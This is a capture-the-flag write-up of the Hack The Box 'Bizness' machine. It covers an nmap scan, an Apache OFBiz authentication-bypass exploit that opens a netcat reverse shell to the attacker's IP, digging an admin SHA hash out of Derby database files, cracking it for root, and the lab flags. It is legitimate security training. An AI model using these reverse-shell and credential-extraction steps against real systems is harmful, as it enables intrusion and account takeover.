 = Bizness

Author:: 0x42697262
Category:: Linux
Difficulty:: Easy
Play Date:: 2024/05/19 - 2024/05/19

== Introduction

.Challenge Description

A vulnerable Linux web server that uses OFBiz for hosting.

== Methodology

Use *nmap* to scan the server.
Get a reverse shell on the server.
Privilege escalate to root if possible.

=== Reconnaissance

Scan with nmap

----
$ nmap -sS -sV -sC -A 10.10.11.252

Nmap scan report for 10.10.11.252
Host is up (1.0s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 4.15 - 5.8 (93%), Linux 3.10 (93%), Linux 5.3 - 5.4 (93%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   99.23 ms  10.10.16.1
2   850.83 ms 10.10.11.252

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 522.18 seconds
----

OpenSSH 8.4p1 doesn't seem to be vulnerable.
However, upon opening the web address of the server, it redirects to ``bizness.htb``.

The issue is that the page would not load.

This can be fixed by adding this to the ``/etc/hosts`` file

----
10.10.11.252 bizness.htb
----

Greeted with the homepage, there are various forms in the website that might be vulnerable to SQL Injection.

.Bizness Homepage
image::bizness/homepage.png[]

It appears that the server is hosted using https://ofbiz.apache.org[OFBiz] which can be seen at the bottom of the page.

Default path for accessing the control page for OFBiz is located at ``/webtools`` which redirects to ``/webtools/control/main``.
The full path is ``bizness.htb/webtools/control/main``.

.OFBiz webtools
image::bizness/ofbiz.png[]

OFBiz uses version *18.12* which might hint that there are security vulnerabilities that might have existed.
Fortunately for this challenge, there are two severe vulnerabilities:

. CVE-2023-49070
. CVE-2023-51467

For the sake of accomplishing this challenge as fast as possible, I have taken a look at PoCs and found a way to bypass the security login.
I used https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass[this exploit].

=== Exploitation

First create a connection for the reverse shell to connect to

----
$ nc -lvnp 6969 <.>
----
<.> Pick any port you like

Then execute the exploit downloaded on another terminal

----
$ python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.20 6969' <.>
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
----
<.> Make sure to point the server to your machine's IP address

On the netcat terminal, this should be printed on the screen

----
listening on [any] 6969 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.252] 49924
----

And we're in!

That can be verified with these commands

----
$ whoami
ofbiz
$pwd
/opt/ofbiz
----

== Finding The Flag

The current directory apparently have tons of files and it would be difficult to find the root flag.

Finding the user flag is quite easy, simply print it out

----
$ cat ~/user.txt
2ecc953f42e90c7a284fcab56f26867e
----

As for the root flag, it's located in ``/root/root.txt`` however the current user (ofbiz) does not have permissions to read, write, and execute on that directory.

It's painful to dumpster dive the password of the root user.
It's not located in the Dockerfile nor in the configurations.

There is however an encrypted password in the file ``/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml``.

[, xml]
----
$ cat AdminUserLoginData.xml

<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/> <.>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
</entity-engine-xml>
----
<.> This line contains a SHA password.

However, I do not see any use or a way to crack the password.

Upon further reading about Apache's OFBiz, the password is stored as plaintext as SHA hash somewhere in the ``./runtime/data`` directory.

Since I am lazy, I proceeded to simply print the strings of each and every file that contains a *SHA*.

----
$ cd ./runtime/data/derby/ofbiz/seg0
$ strings * | grep SHA

SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I <.>

----
<.> We found are root password hashed with SHA.

== Cracking the Root Flag

Certainly, I can code my own tool for cracking the hashed password using a wordlist dictionary but someone else have already created that tool for us to use.
Can be accessed https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker[here].

I used *rockyou.txt* as my wordlist.

After cracking the SHA hash, we should now acquire the password.

----
monkeybizness
----

== Get Root Flag

Login with root

----
$ su
Password: monkeybizness
----

Check if we truly are root

----
# whoami
root
----

Acquire the root flag

----
# cat /root/root.txt
628643013da646b11a7f82adfd4f1b12
----

== Challenge Summaries

Extract the archive with ``tar``

Use an existing tool to exploit Apache's OFBiz 18.12

----
$ python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.20 6969' <.>
----

Get the user flag

----
$ cat ~/user.txt
2ecc953f42e90c7a284fcab56f26867e
----

Crack the SHA hash then get the root flag

----
$ cd ./runtime/data/derby/ofbiz/seg0
$ strings * | grep SHA

SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I <.>
----

----
$ su
Password: monkeybizness
----

----
# cat /root/root.txt
628643013da646b11a7f82adfd4f1b12
----

== Lessons Learned

. Apache's OFBiz
. Searching for existing exploits

== Conclusion

Not a fun challenge when you have to search the files one by one when you do not have experience with OFBiz.
I don't wanna do this shit again.

[IMPORTANT] 
.Flag
==== 
user:2ecc953f42e90c7a284fcab56f26867e

root:628643013da646b11a7f82adfd4f1b12
====
